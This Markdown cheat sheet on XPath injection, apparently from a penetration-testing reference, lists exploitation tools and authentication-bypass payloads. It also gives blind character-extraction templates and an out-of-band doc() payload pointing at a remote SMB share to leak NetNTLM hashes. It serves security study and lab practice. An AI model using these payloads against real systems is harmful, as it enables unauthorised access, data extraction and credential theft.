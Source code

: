 # XPATH Injection

> XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Blind exploitation](#blind-exploitation)
    * [Out Of Band Exploitation](#out-of-band-exploitation)
* [Labs](#labs)
* [References](#references)

## Tools

- [orf/xcat](https://github.com/orf/xcat) - Automate XPath injection attacks to retrieve documents
- [feakk/xxxpwn](https://github.com/feakk/xxxpwn) - Advanced XPath Injection Tool 
- [aayla-secura/xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart) - A fork of xxxpwn using predictive text 
- [micsoftvn/xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
- [Harshal35/XmlChor](https://github.com/Harshal35/XMLCHOR) - Xpath injection exploitation tool


## Methodology

Similar to SQL : `"string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"`

```sql
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
search=')] | //user/*[contains(*,'
search=Har') and contains(../password,'c
search=Har') and starts-with(../password,'c
```

### Blind Exploitation

1. Size of a string
    ```sql
    and string-length(account)=SIZE_INT
    ```
2. Extract a character
    ```sql
    substring(//user[userid=5]/username,2,1)=CHAR_HERE
    substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
    ```

### Out Of Band Exploitation

```powershell
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
```


## Labs

* [Root Me - XPath injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Authentication)
* [Root Me - XPath injection - String](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-String)
* [Root Me - XPath injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Blind)


## References

- [Places of Interest in Stealing NetNTLM Hashes - Osanda Malith Jayathissa - March 24, 2017](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
- [XPATH Injection - OWASP - January 21, 2015](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))